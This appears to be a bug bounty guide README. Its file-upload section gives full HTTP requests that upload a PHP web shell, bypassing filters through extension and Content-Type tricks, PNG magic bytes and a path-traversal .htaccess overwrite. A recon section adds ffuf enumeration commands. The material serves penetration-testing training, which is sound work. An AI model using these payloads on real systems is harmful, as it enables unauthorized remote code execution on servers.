

# Bug Bounty Hunting Mindset v1.0

<h2 align="center"><strong>Bug Bounty Hunting Mindset v1.0</strong></h2>

<p align="center">A focused and practical resource for bug bounty hunters, penetration testers, and red teamers — covering real-world techniques, bypasses, and offensive security insights.</p>

***

<h3 align="center"><strong>Vulnerabilities &#x26; Bypasses:</strong></h3>

> **Info:**
>
> <p align="center">A collection of known vulnerability types with practical methods to bypass filters, protections, and common security mechanisms.</p>

#### <sup>**V01.**</sup>**&#x20;Insecure file uploads: A complete guide to finding advanced file upload vulnerabilities:**

1. **Identifying file upload vulnerabilities**
   * Retrievable
   * Content-Type
2.  **Exploiting simple file upload vulnerabilities**

    * No restrictions

    ```http
    POST /Api/FileUpload.aspx HTTP/2
    Host: console.example.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
    Accept: */*

    ------WebKitFormBoundary3RwPFJztxaJvrqAq
    Content-Disposition: form-data; name="file"; filename="shell.php"
    Content-Type: application/x-php

    <?php echo system($_GET['e']); ?>
    ------WebKitFormBoundary3RwPFJztxaJvrqAq--
    ```

    * Bypassing client-side restrictions
      *   HTML "accept" attribute

          ```html
          <input type="file" accept=".jpg, .jpeg, .png, .gif" />
          ```
      * using proxy interceptors
    * Bypassing a file extension blacklist

    <figure><figcaption></figcaption></figure>

    <p align="center">Bypass file extension exclusion lists</p>

    * Bypassing a file extension whitelist


<p align="center">Bypass file extension inclusion lists</p>

If the file upload implementation determines your file type by the content type, you can also attempt to upload a file with a whitelisted file extension but with your malicious content type:

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center">Take note of the <mark style="color:red;">filename</mark> and <mark style="color:red;">Content-Type</mark> in the example request above.</p>

3. **Exploiting advanced file upload vulnerabilities**

* Bypassing content type restrictions

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/png

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

* Magic bytes
  *   These are the magic bytes for a normal image (PNG) in HEX:

      `89 50 4E 47 0D 0A 1A 0A`

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

‰PNG␍␊␚␊
<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center"><a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures - Wikipedia</a></p>

* Overwriting server configuration files
  * .htaccess

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="../../../.htaccess"
Content-Type: text/plain

# Your server configuraton rules
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

***

#### <sup>**V02.**</sup>

***

<h3 align="center"><strong>Hunting Techniques &#x26; Ideas:</strong></h3>

> **Info:**
>
> <p align="center">General strategies, techniques, and creative approaches to help you discover more bugs and uncover hidden attack surfaces.</p>

#### <sup>**T01.**</sup>**&#x20;7 Overlooked recon techniques to find more vulnerabilities:**

1. **Targeted wordlists**
   1. [CeWL](https://github.com/digininja/CeWL)
2. **Virtual host (VHost) enumeration**

```sh
ffuf -u https://example.com -H "Host: FUZZ.example.com" -w /path/to/wordlist
```

3. **Forced browsing using different HTTP methods**

```sh
ffuf -u https://api.example.com/PATH -X METHOD -w /path/to/wordlist:PATH -w /path/to/http_methods:METHOD
```

4. **JavaScript file monitoring**
   1. [JSMON](https://github.com/robre/jsmon)
5. **Crawling with different user-agent headers**
   1. <kbd>Proxy → Proxy settings → Tools → Proxy → HTTP match and replace rules</kbd>
6. **Finding related assets with favicon hashes**
   1. [Shodan](https://www.shodan.io/)
   2. [Censys](https://search.censys.io/)
7. **Looking up legacy versions of JavaScript files**
   1. [internet archives](https://archive.org/)

***

#### <sup>**T02.**</sup>

***

<h3 align="center"><strong>Closing Note:</strong></h3>

It is my pleasure and honor to have your support and follow-up. I look forward to exchanging knowledge and collaborating with you in the field of cybersecurity.

Stay connected:

* **X Platform:** [iProgrammer16](https://x.com/iProgrammer16)
* **X Platform:** [1ZeroDay](https://x.com/1ZeroDay)
* **LinkedIn:** [Linkedin](https://www.linkedin.com/in/saleh16abdullah/)
* **Github:** [iProgrammer16](https://github.com/iProgrammer16)
* **Telegram Channel:** [1ZeroDay](https://t.me/+ylDx8zGNLEwzMWU8)
* **For collaboration on HackerOne:** [HackerOne Profile - iProgrammer16](https://hackerone.com/iprogrammer16)
* **All social links in one place:** [Linktr](https://linktr.ee/1ZeroDay)
